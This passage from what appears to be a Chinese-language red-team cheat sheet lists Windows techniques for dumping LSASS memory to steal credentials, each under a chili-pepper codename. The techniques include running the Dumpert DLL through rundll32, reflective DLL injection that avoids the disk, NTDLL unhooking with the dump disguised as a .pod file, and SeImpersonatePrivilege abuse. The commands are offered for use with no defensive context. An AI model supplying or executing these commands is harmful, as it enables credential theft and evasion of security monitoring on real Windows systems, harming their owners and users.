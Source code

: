 -   `rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump`

### **Padron Chilli**

域：Y/N

Local Admin: Yes

操作系统：Windows

类型：Create a Reflective DLL Injector + Reflective DLL for dump lsass memory without touch hard disk

方法：

-   `#.\inject.x64.exe <Path to reflective dll: .\LsassDumpReflectiveDLL.dll>`

### **Jalapeno Chillies**

域：Yes

Local Admin: Yes

操作系统：Windows

方法：unhook NTDLL.dll + dump the lsass.exe as WindowsUpdateProvider.pod

方法：

-   `NihilistGuy.exe`

  

批注：[https://github.com/analyticsearch/NihilistGuy](https://link.zhihu.com/?target=https%3A//github.com/analyticsearch/NihilistGuy)

### **Pasilla Chili**

域：Yes

Local Admin: Yes

操作系统：Windows

方法：SeImpersonatePrivilege + Abusing Service Account Session

方法：

-   `https://github.com/tyranid/blackhat-usa-2022-demos`
-   `Demo5.ps1`

### **Finger Chilli**

域：No

Local Admin: Yes

操作系统：Windows

类型：Abusing PrintNotify Service + DLL side-loading

方法：
